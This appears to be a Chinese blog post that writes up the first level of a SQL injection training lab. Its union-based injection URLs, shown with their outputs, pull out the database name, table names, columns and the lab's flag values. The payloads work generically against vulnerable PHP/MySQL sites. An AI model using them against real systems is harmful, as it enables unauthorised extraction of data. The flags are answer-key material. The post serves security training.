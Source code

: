 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入
categories: [安全, SQL注入]
description: sql注入练习 报错注入
keywords: SQL注入
---
```


# 掌控安全 SQL 注入靶场练习 Pass1 - 报错注入

靶场地址:  http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1

> **注意**: 错误注入 不一定是会返回错误信息。 也指不正常显示结果， 例如此题的查询为空。

## 0x01 准备工具


辅助工具 `google extension` : hackbar

1. 帮助快速构造语句
2. 显示原始字符，免去 urlcode 烦恼


## 0x02 开始

```sql
-- 1. 查询数据库名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2, database()
-- error


-- 2. 查询所以表名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
-- error_flag, user


-- 3. 查询当前库所有列名
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='error_flag'
-- id, flag

-- 4.0 查询 flag 数量
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,count(*) from error_flag
-- 4


-- 4.1 查询 flag
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,id,flag from error_flag
-- zKaQ-Nf

-- 4.2 查询所有flag
http://injectx1.lab.aqlab.cn:81/Pass-01/index.php?id=1 and 1=2 union select 1,2,group_concat(flag) from error_flag
-- zKaQ-Nf,zKaQ-BJY,zKaQ-XiaoFang,zKaq-98K

```
